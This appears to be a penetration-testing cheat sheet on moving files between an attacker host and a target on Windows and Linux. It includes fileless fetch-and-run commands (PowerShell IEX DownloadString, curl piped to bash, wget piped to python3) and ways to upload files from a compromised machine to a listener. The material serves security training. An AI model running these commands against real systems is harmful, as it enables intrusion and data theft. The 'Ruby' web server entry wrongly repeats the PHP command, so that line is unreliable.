 # 📁 File Transfers

In the profane rites of assessment, the movement of relics—scripts, payloads, and binaries—is both necessary and perilous. This chapter reveals methods for casting files across dimensions, utilizing primitive yet persistent protocols shared among ancient systems both Windows and Linux.

> *"No summoning may begin until the runes are in place."*

---

<details>
<summary><h1>🪟 Windows</h1></summary>
&nbsp;&nbsp;&nbsp;&nbsp;<details>  
<summary><h2>📥 Downloads</h2></summary>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<details>
<summary><h3>PowerShell Downloads</h3></summary>  
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<details> 
<summary><h4>PowerShell DownloadFile Method</h4></summary>

**Sync (Wait for the download to finish)**  

No password
```powershell
(New-Object Net.WebClient).DownloadFile('http://<IP>:<PORT>/<FILE>','C:\Users\Public\<FILE>')
```
Using Credentials
```powershell
(New-Object Net.WebClient -Property @{Credentials = New-Object System.Net.NetworkCredential('<USER>', '<PASSWORD>')}).DownloadFile('http://<IP>:<PORT>/<FILE>', 'C:\Users\Public\<FILE>')
```

**Async (Keep using Powershell while downloading)**  

No password
```powershell
(New-Object Net.WebClient).DownloadFileAsync('http://<IP>:<PORT>/<FILE>','C:\Users\Public\<FILE>')
```
Using Credentials
```powershell
(New-Object Net.WebClient -Property @{Credentials = New-Object System.Net.NetworkCredential('<USER>', '<PASSWORD>')}).DownloadFileAsync('http://<IP>:<PORT>/<FILE>', 'C:\Users\Public\<FILE>')
```

</details>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<details>
<summary><h4>PowerShell DownloadString - Fileless Method</h4></summary>

Default  
```powershell
IEX (New-Object Net.WebClient).DownloadString('http://<IP>:<PORT>/<FILE>')
```

Pipeline input  
```powershell
(New-Object Net.WebClient).DownloadString('http://<IP>:<PORT>/<FILE>') | IEX
```
</details>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<details>
<summary><h4>PowerShell Invoke-WebRequest</h4></summary>

Default  
```powershell
Invoke-WebRequest http://<IP>:<PORT>/<FILE> -OutFile <OUTPUT FILE>
```

ByPass Internet Explorer Error  
```powershell
Invoke-WebRequest http://<IP>:<PORT>/<FILE> -UseBasicParsing | IEX
```

ByPass SSL/TLS Error  
```powershell
[System.Net.ServicePointManager]::ServerCertificateValidationCallback = {$true}
```
</details>
</details>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<details>
<summary><h3>SMB Downloads</h3></summary>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<details>  
<summary><h4>Default</h4></summary>  

**Source Machine: Create a temporary SMB Share in Linux and place your target file in it** 

```bash
mkdir /tmp/smbshare
cd /tmp/smbshare
mv <FILE> .
chmod 644 <FILE>
sudo impacket-smbserver share -smb2support .
```

**Destination Machine: Download the files**

**Option 1:** Download a single file
```cmd
copy \\<IP>\share\<FILE>
```

**Option 2:** Mount the share
```cmd
net use n: \\<IP>\share /persistent:no
```
</details>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<details>  
<summary><h4>Using credentials</h4></summary>  

**Source Machine: Create the SMB Server in Linux**
```bash
sudo impacket-smbserver share -smb2support /tmp/smbshare -user <USER> -password <PASSWORD>
```

**Destination Machine: Mount the share**
```cmd
net use n: \\<IP>\share /user:<USER> <PASSWORD>
```

**Destination Machine: Download the file**
```cmd
copy n:\<FILE>
```

**Destination Machine: Unmount the share**
```cmd
net use n: /delete /y
```
</details>
</details>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<details>
<summary><h3>FTP Downloads</h3></summary>  

Setting up a Python3 FTP Server in Linux
```bash
sudo pip3 install pyftpdlib
sudo python3 -m pyftpdlib --port 21 --user ftpuser --password 'ftppass'
```

**Option 1: Download file using Powershell**
```powershell
(New-Object Net.WebClient -Property @{Credentials = New-Object System.Net.NetworkCredential('ftpuser', 'ftppass')}).DownloadFile('ftp://<IP>/<FILE>', 'C:\Users\Public\<FILE>')
```

**Option 2: Download file using CMD**  
```cmd
(
  echo open <IP>
  echo user ftpuser ftppass
  echo binary
  echo get <FILE>
  echo bye
) > ftpcommand.txt
ftp -i -v -n -s:ftpcommand.txt
```
---

</details>
</details>
&nbsp;&nbsp;&nbsp;&nbsp;<details>  
<summary><h2>📥 Uploads</h2></summary>  
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<details>  
<summary><h3>PowerShell Uploads</h3></summary>  
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<details>  
<summary><h4>PowerShell Base64 Encode & Decode</h4></summary>  

1. Encode File Using PowerShell 
```powershell
# 1. Convert File to Base64
[Convert]::ToBase64String((Get-Content -path "<FILE PATH>" -Encoding byte))

# 2. Computes the MD5 checksum of a file to verify its integrity.
Get-FileHash "<FILE PATH>" -Algorithm MD5 | select Hash
```
We copy this content and paste it into our attack host, use the base64 command to decode it, and use the md5sum application to confirm the transfer happened correctly.  

2. Decode Base64 String in Linux
```bash
# 1. Save the base64 string to a file
echo "<BASE64STRING>" > encoded.b64

# 2. Decode the base64 to recreate the original file
base64 -d encoded.b64 > decoded.txt

# 3. Verify the MD5 hash matches the Windows version
md5sum decoded.txt
```
</details>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<details>  
<summary><h4>PowerShell Web Uploads</h4></summary>  

1. Installing a Configured WebServer with Upload in Linux
```bash
pip3 install uploadserver
python3 -m uploadserver
```
2. PowerShell Script to Upload a File to Python Upload Server
```powershell
IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/juliourena/plaintext/master/Powershell/PSUpload.ps1')
Invoke-FileUpload -Uri http://<IP>:<PORT>/upload -File <FILE PATH>
```

</details>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<details>  
<summary><h4>PowerShell Base64 Web Upload</h4></summary>  

1. We use Netcat to listen in on a port we specify and send the file as a POST request.
```bash
nc -lvnp <PORT>
```
2. PowerShell Script to Upload a File to Python Upload Server
```powershell
$b64 = [System.convert]::ToBase64String((Get-Content -Path '<FILE PATH>' -Encoding Byte))
Invoke-WebRequest -Uri http://<IP>:<PORT>/ -Method POST -Body $b64
```
3. We copy the output and use the base64 decode function to convert the base64 string into a file.
```bash
echo <BASE64 FILE> | base64 -d -w 0 > <FILE>
```
</details>
</details>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<details> 
<summary><h3>SMB Uploads</h3></summary>  

1. Installing WebDav Python modules in Linux
```bash
sudo pip3 install wsgidav cheroot
sudo wsgidav --host=0.0.0.0 --port=<PORT> --root=/tmp --auth=anonymous
```
2. Uploading Files using SMB in Windows
```cmd
# DavWWWRoot is a special keyword recognized by the Windows Shell. No such folder exists on your WebDAV server.
dir \\192.168.49.128\DavWWWRoot
copy <FILE PATH> \\<IP>\DavWWWRoot\

# You can avoid using this keyword if you specify a folder that exists on your server when connecting to the server. For example: \<IP>\sharefolder
copy <FILE PATH> \\<IP>\sharefolder\
```
If there are no SMB (TCP/445) restrictions, you can use impacket-smbserver the same way we set it up for download operations.
</details>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<details> 
<summary><h3>FTP Uploads</h3></summary>  

**1. Start our FTP Server in Linux**
```bash
sudo python3 -m pyftpdlib --port 21 --write
```
**2. Upload the file in Windows**

Option 1: Upload file using Powershell
```cmd
(New-Object Net.WebClient).UploadFile('ftp://<IP>/ftp-hosts', '<FILE PATH>')
```
Option 2: Create a Command File for the FTP Client to Upload a File
Create a Command File for the FTP Client and Download the Target File
```cmd
echo open <IP> > ftpcommand.txt
echo USER anonymous >> ftpcommand.txt
echo binary >> ftpcommand.txt
echo PUT <FILE PATH> >> ftpcommand.txt
echo bye >> ftpcommand.txt
ftp -v -n -s:ftpcommand.txt
```
Once in FTP...
```cmd
USER anonymous
PUT <FILE PATH>
bye
```
</details>
</details>
</details>

---

<details>
<summary><h1>🐧 Linux</h1></summary>
&nbsp;&nbsp;&nbsp;&nbsp;<details>  
<summary><h2>📥 Downloads</h2></summary>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<details>
<summary><h3>Base64 Encoding / Decoding</h3></summary>  
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; 
  
**Check File MD5 hash**  
```bash
md5sum <FILE>
```

**Encode file to Base64**  
```bash
# We copy this content and paste it onto our Linux target machine
cat <FILE> |base64 -w 0;echo
```

**Decode the File**  
```bash
echo -n '<BASE64STRING>' | base64 -d > <OUTPUT FILE>
```

**Confirm the MD5 Hashes Match**  
```bash
md5sum <FILE>
```

</details>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<details>
<summary><h3>Wget Downloads</h3></summary>  

**Basic Download**  
```bash
wget http://<IP>:<PORT>/<FILE>
```

**Download with Custom Filename**  
```bash
wget -O <OUTPUT FILE> http://<IP>:<PORT>/<FILE>
```

**Download with Authentication**  
```bash
wget --user=<USER> --password=<PASSWORD> http://<IP>:<PORT>/<FILE>
```

**Fileless Download**  
```bash
# Executes it directly
wget -qO- http://<IP>:<PORT>/<FILE> | python3
```

</details>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<details>
<summary><h3>Curl Downloads</h3></summary>

**Basic Download**  
```bash
curl -O http://<IP>:<PORT>/<FILE>
```

**Ignore SSL certificate**  
```bash
curl -k -O https://<IP>:<PORT>/<FILE>
```

**Download with Custom Filename**  
```bash
curl -o <OUTPUT FILE> http://<IP>:<PORT>/<FILE>
```

**Download with Authentication**  
```bash
curl -u <USER>:<PASSWORD> -O http://<IP>:<PORT>/<FILE>
```

**Fileless Download**  
```bash
# Executes it directly
curl http://<IP>:<PORT>/<FILE> | bash
```

</details>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<details>
<summary><h3>Download with Bash</h3></summary>

**Connect to the Target Webserver**  
```bash
exec 3<>/dev/tcp/<IP>/<PORT>
```

**HTTP GET Request**  
```bash
echo -e "GET /<FILE> HTTP/1.1\n\n">&3
```

**Print the Response**  
```bash
cat <&3
```

</details>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<details>
<summary><h3>SSH Downloads</h3></summary>

**Source Machine: Starting the SSH Server**  
```bash
sudo systemctl enable ssh
sudo systemctl start ssh
```

**Source Machine: Checking for SSH Listening Port**  
```bash
#0.0.0.0:22
netstat -lnpt
```

**Destination Machine: Downloading Files Using SCP**  
```bash
scp user@remote_ip:/remote/path/<FILE> /local/path/
```

</details>
</details>
&nbsp;&nbsp;&nbsp;&nbsp;<details>  
<summary><h2>📥 Uploads</h2></summary>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<details>
<summary><h3>Web Upload</h3></summary>

**Source Machine: Start Web Server**  
```bash
sudo python3 -m pip install --user uploadserver
```

**Source Machine: Create a Self-Signed Certificate**  
```bash
openssl req -x509 -out server.pem -keyout server.pem -newkey rsa:2048 -nodes -sha256 -subj '/CN=server'
```

**Source Machine: Prepare the files**  
```bash
mkdir https && cd https
mv ~/<FILE> .
```

> **_NOTE:_**  The webserver should not host the certificate. Create a new directory to host the file for the webserver.

**Source Machine: Start Web Server**  
```bash
sudo python3 -m uploadserver --server-certificate ~/server.pem 443
```

> **_Destination Machine:_**  Refer to the "Downloads" section for available transfer methods.

</details>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<details>
<summary><h3>SCP Uploads</h3></summary>  
  
**Upload to Remote Server**  
```bash
scp <FILE> <USER>@<IP>:/remote/path/
```

**Upload with Custom Port**  
```bash
scp -P <PORT> <FILE> <USER>@<IP>:/remote/path/
```

**Upload with Key Authentication**  
```bash
scp -i <KEY FILE> <FILE> <USER>@<IP>:/remote/path/
```

</details>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<details>
<summary><h3>FTP Uploads</h3></summary>

**Source Machine: Using FTP Command**  
```bash
ftp <IP>
# Once connected:

put <FILE>
```

**Source Machine: Using lftp**  
```bash
lftp -u <USER>,<PASSWORD> <IP>

# Once connected:
put <FILE>
```

</details>

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<details>
<summary><h3>Alternative Web File Transfer Method</h3></summary>
A compromised Linux machine may not have a web server installed. In such cases, we can use a mini web server.

**Source Machine: Creating a Web Server with Python3**  
```bash
python3 -m http.server 8000
```

**Source Machine: Creating a Web Server with Python2.7**  
```bash
python2.7 -m SimpleHTTPServer 8000
```

**Source Machine: Creating a Web Server with PHP**  
```bash
php -S 0.0.0.0:8000
```

**Source Machine: Creating a Web Server with Ruby**  
```bash
php -S 0.0.0.0:8000
```

> **_Destination Machine:_**  Refer to the "Downloads" section for available transfer methods.

</details>
</details>
</details>

---

